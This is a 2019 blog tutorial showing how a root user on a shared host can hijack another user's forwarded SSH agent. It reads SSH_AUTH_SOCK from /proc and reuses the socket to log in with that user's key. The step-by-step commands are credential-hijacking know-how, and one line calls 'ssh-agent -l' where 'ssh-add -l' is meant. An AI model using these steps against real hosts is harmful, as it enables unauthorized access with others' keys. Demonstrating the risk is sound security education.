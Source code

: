 ```yaml
---
layout: post
title:  "SSH Agent Hijacking"
date:   2019-09-06 23:06:00 -0400
categories: linux ssh security hijacking
---
```

Use of SSH Agent Forwarding is a common way to enable re-using SSH keys from a source and jumping through multiple hosts
over SSH. However, this method comes with a potential risk of hijacking where compromise could mean a malicious actor
using the SSH keys to access downstream hosts without the user knowing. This quick tutorial demonstrates how SSH
hijacking can occur.

### Setup

This example assumes you already have SSH keys created and the public key contents residing within the `authorized_keys` file
of the remote host (thus allowing key-based access to the remote host). Let's assume the remote host IP address is
`10.11.12.13` and your user ID is `joe`. Let's also assume the remote host is running a CentOS 7.2 OS.

### SSH Access with Forwarding

First, open a terminal session and SSH to the remote host using your SSH key and agent forwarding. If this does not work, it's
likely that `AllowAgentForwarding` is set to `no` in the `/etc/ssh/sshd_config` file of the remote host. If this is the case,
change it to `yes` and restart the `sshd` service for this test.

{% highlight bash %}
$ ssh -A joe@10.11.12.13
{% endhighlight %}

Once you're on the remote instance, you can test that the agent forwarding worked by running the following command, which
should show the fingerprint of the represented SSH key file:

{% highlight bash %}
$ ssh-add -l
{% endhighlight %}

If this shows the fingerprint of the SSH key used to access the instance, you have successfully SSH'd to the target instance
using SSH forwarding. Keep this terminal window open.

### SSH Hijacking

Now open a second window. SSH to the same target instance (`10.11.12.13`) without agent forwarding, and switch to the root
user as though you were another user on the same instance with root privileges:

{% highlight bash %}
$ ssh joe@10.11.12.13
$ sudo su -
{% endhighlight %}

We'll now perform the hijack. Granted, performing hijacking in this scenario does require the root account based on the
SSH agent socket permissions, but any compromise or user's ability to access the socket can result in the potential to
hijack. We'll install a quick utility that helps visualize the process tree for the SSH session as well.

{% highlight bash %}
# install pstree utility
$ yum install psmisc
$ pstree -p joe
# this utility will show the process trees of all processes
# associated with the user joe - find the process with the
# following signature:
#   sshd(<PID>) -- bash(<PID>)
# the <PID> of the bash process is the PID you need for
# the following steps

# capture the SSH_AUTH_SOCK variable out of the environment
# for the ssh agent process:
$ cat /proc/<PID>/environ | tr '\0' '\n' | grep SSH_AUTH_SOCK

# you can test that the capture is working and an identity is
# present by running the following command, which should show
# the same fingerprint for the identity
$ SSH_AUTH_SOCK=<PREVIOUS_CAPTURE> ssh-agent -l

# now use the ssh identity to access a remote instance where
# you know the identity is in the authorized_keys file - to test
# easily, you can simply use 'localhost' since this host has
# the identity in the authorized_keys file
$ SSH_AUTH_SOCK=<PREVIOUS_CAPTURE> ssh joe@localhost
{% endhighlight %}

If all goes well, you will be SSH'd into the local VM without a password using the SSH key of the other session.

### Credit

The above tutorial was pieced together with some information from the following sites/resources:

* [SSH Agent Hijacking](https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/)
